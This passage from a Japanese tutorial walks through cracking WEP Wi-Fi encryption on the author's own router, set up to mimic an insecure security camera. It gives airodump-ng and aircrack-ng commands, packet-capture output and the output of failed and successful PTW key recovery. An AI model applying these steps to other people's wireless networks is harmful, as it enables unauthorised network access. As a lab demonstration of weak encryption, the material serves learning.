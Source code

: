 
今回のターゲットはここです。ガバガバセキュリティの監視カメラを再現するためわざわざルータの設定を WEP 方式に変更したので、こちらでも "WEP" と表示されているのがわかります。

```
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 00:01:8E:66:16:A4  -51        3        0    0  13   54   WEP  WEP         logitecuser
```

それではここを通過するパケットを収集します。`airodump-ng <使用するアダプタ名> --essid <ターゲットのESSID> -w <ログを保存するファイル名>` と打ちます。

```console
$ sudo airodump-ng wlan0mon --essid logitecuser -w sample
 CH 11 ][ Elapsed: 36 s ][ 2023-07-20 01:38

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:01:8E:66:16:A4  -49       29       47    0  13   54   WEP  WEP         logitecuser

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 00:01:8E:66:16:A4  E4:70:B8:60:7E:67  -31   54 -54      0       47
```

先ほども書いたように、PTW 攻撃による WEP 鍵の算出には大量のパケットが必要になります。実際に私が試してみたところ 20000 個ほどは必要になるようだったので、"Frames" と書かれている部分が 20000 程度になるまで待ちましょう。今回のように練習で試してみる場合は侵入させたいネットワーク内で YouTube などを垂れ流しするのが手っ取り早いです（それでも二時間程度はかかります）。

十分な量のパケットが手に入ったらいよいよ PTW 攻撃の時間です。とはいっても、Kali Linux ならコマンド一発です。さっき `-w` オプションで指定した名前を含む `.cap` ファイルができているはずなので、それを `aircrack-ng` に渡せば全自動で解析してくれます。パケットが少なすぎる場合はこのように失敗してしまうので、その場合はもう少し集めましょう。

```console
$ aircrack-ng ~/sample-01.cap
                                                                          Aircrack-ng 1.7


                                                            [00:00:01] Tested 158959 keys (got 112 IVs)
                                                                       Got 112 out of 5000 IVs
   KB    depth   byte(vote)
    0   17/ 30   FC( 512) 02( 256) 09( 256) 0D( 256) 15( 256) 19( 256) 1A( 256) 1B( 256) 1D( 256) 27( 256) 2A( 256) 2B( 256) 2C( 256)
    1    2/  3   06( 768) 14( 512) 33( 512) 44( 512) 6F( 512) AA( 512) C8( 512) CF( 512) D8( 512) F2( 512) 02( 256) 03( 256) 05( 256)
    2   18/ 19   CB( 512) 0A( 256) 0B( 256) 0C( 256) 0F( 256) 10( 256) 13( 256) 16( 256) 19( 256) 1A( 256) 1C( 256) 21( 256) 26( 256)
    3   95/  3   FF( 256) 00(   0) 04(   0) 06(   0) 07(   0) 09(   0) 0B(   0) 0C(   0) 0E(   0) 0F(   0) 11(   0) 13(   0) 14(   0)
    4    3/  4   EC( 768) 11( 512) 1B( 512) 23( 512) 27( 512) 2A( 512) 2F( 512) 3B( 512) 41( 512) 48( 512) 76( 512) 9D( 512) 9F( 512)

Failed. Next try with 5000 IVs.
```

無事パスワードの特定に成功すると、このように表示されます！

```
                                                                          Aircrack-ng 1.7


                                                            [00:00:01] Tested 65538 keys (got 35722 IVs)

   KB    depth   byte(vote)
    0    0/  1   00(56576) E3(44544) 3A(44288) 26(43776) D2(42752) A5(42496) C5(42496) EF(42496) 90(41984) 04(41472) 79(41216) 7E(41216) 9F(41216)
    1    0/  1   00(48128) 07(45312) 1A(43008) E7(43008) 28(41728) 71(41728) A3(41728) A4(41728) A9(41728) 3C(41472) 5C(41472) 65(41216) 66(41216)
    2    0/  1   00(47104) 1A(44032) BA(44032) F3(42240) C7(41984) 51(41728) AA(41728) 6F(41216) FB(41216) 25(40960) 16(40192) 32(40192) 3E(40192)
```